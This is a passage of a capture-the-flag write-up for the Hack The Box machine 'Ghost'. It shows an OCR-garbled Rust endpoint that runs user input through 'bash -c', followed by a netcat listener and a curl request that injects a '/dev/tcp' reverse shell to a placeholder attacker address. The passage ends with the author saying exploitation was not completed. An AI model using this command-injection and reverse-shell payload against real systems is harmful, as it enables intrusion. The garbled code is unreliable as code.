 ```
#[post("/scan", format = "json", data = "«data»")]
pub fn scan(_guard: DevGuard, data: Json<ScanRequest>) -> Json<ScanResponse>
    // currently intranet_url_check is not implemented,
    // but the route exists for future compatibility with the blog
    let result = Command:: new("bash" )
        .arg("-c")
        arg(format! ("intranet_url_check (]", data.url))
        output (;
```
It uses `bash -c` with unvalidated user input in `data.url`, textbook command injection.

I prepared a reverse shell and sent a payload to exploit the vulnerable scan endpoint:
```
nc -lvnp 4444
```
```
└─# curl -X POST http://intranet.ghost.htb:8008/api-dev/scan -H 'X-DEV-INTRANET-KEY: !@yqr!X2kxmQ.@Xe' -H 'Content-Type: application/json' -d '{"url":"http://intranet.ghost.htb:8008; /bin/bash -i >& /dev/tcp/YOURIP/PORT 0>&1"}'
```

We should be able to catch a reverse shell as a valid user or potentially an administrator through this endpoint. Unfortunately, I was unable to complete full exploitation, as the machine was moved to the Pro Lab (VIP-only) environment before I could finish testing the payload.<br>
WHAT A TIMING HACK THE BOX!<br>
This writeup reflects the steps I was able to document during active enumeration and partial exploitation. I plan to revisit and update this report once I upgrade to VIP and gain access to the machine again for full exploitation and privilege escalation analysis.


